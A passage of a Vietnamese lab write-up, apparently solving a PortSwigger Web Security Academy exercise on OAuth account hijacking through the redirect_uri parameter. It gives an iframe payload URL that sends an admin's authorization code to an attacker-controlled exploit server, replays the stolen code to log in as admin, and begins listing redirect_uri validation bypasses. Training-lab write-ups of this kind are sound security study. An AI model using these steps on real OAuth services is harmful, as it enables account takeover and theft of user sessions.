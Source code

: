 - Thực hiện thay đổi tham số ***redirect_uri*** thành domain lấy từ Burp Collaborator, sau đó thực hiện gửi request và follow redirection:

  <img width="1864" height="798" alt="image" src="https://github.com/user-attachments/assets/ef8ca28f-d6b2-4a92-b6df-a942883e416d" />

- Ta nhận thấy một request có chứa authorization code gửi đến server Collab:

  <img width="1918" height="918" alt="image" src="https://github.com/user-attachments/assets/58c767b8-7760-44b3-9a72-523bcdbffcac" />

  &rarr; Điều này xác nhận rằng ta có thể rò rỉ authorization code ra external domain.

- Trên exploit server của ta, thực hiện tạo một request trong đó phần body tạo một thê ***iframe*** với thuộc tính src ta tạo với nội dung link: ***https://oauth-0ae500b0044262ed83b75dbf02ff00ca.oauth-server.net/auth?client_id=aiub01nvs4sng53f9kvva&redirect_uri=https://exploit-0a13003a04b46295832c5e80015a0041.exploit-server.net&response_type=code&scope=openid%20profile%20email***, với ***redirect_uri*** ta để là domain của *exploit server*, sau đó thực hiên gửi đến cho victim ở đây là admin user và chờ payload được kích hoạt do admin click mở vào đường link giấu trong thẻ <iframe>.

  <img width="1917" height="937" alt="image" src="https://github.com/user-attachments/assets/72afe568-846b-4c92-82a5-3c5bf7507e42" />

- Kiểm tra, access log của exploit server của ta, nhận thấy có một request trả về authorization code bị rò rỉ &rarr; admin đã login sẵn vào OAuth provider và session đó còn hiệu lực và khi admin ấn vào payload, OAuth server sẽ không hỏi lại username/password. Thay vào đó, OAuth flow chạy thẳng → cấp code/token ngay:

  <img width="1919" height="941" alt="image" src="https://github.com/user-attachments/assets/0157070c-1494-4069-8901-7e6004a0d5bb" />

- Thực hiện đăng xuất tải khoản cũ, sau đó thực hiện truy cập đến:

  ```url
  https://0a4e001904de624083755f190006004b.web-security-academy.net/oauth-callback?code=cZCc1G_sDibt0-v3qIYUMyZI3f8ogEqgVNKp6frrk0I
  ````

  Trong đó tham số ***code*** là lấy từ authorization code gửi về cho exploit server lấy từ mục access log.

  Lúc này phần còn lại của flow OAuth sẽ được hoàn thành tự động và ta sẽ được đăng nhập với tư cách người dùng quản trị.

  <img width="1917" height="939" alt="image" src="https://github.com/user-attachments/assets/76040d04-c2cc-4f55-acd6-9d29e3524aa3" />

  Thực hiện xóa thành công user carlos trong tài khoản admin:

  <img width="1919" height="932" alt="image" src="https://github.com/user-attachments/assets/1662ae91-b665-403e-b28c-cf311fed3094" />
  
### Flawed redirect_uri validation

- Các client application có thể sử dụng một whitelist chính xác các callback URIs mà đã đăng ký với với dịch vụ OAuth. Bằng cách này, khi dịch vụ OAuth nhận được một yêu cầu mới, nó có thể xác thực tham số redirect_uri so với whitelist này.

- Tuy nhiên, vẫn có một số cách để thực hiện bypass:

  - Chỉ kiểm tra “bắt đầu bằng” (prefix match): Một số server chỉ check chuỗi bắt đầu đúng domain hợp lệ (startsWith) &rarr; thêm ***path/query/fragment*** tùy ý để xem ta có thể thay đổi điều gì mà không bị kích hoạt lỗi.
 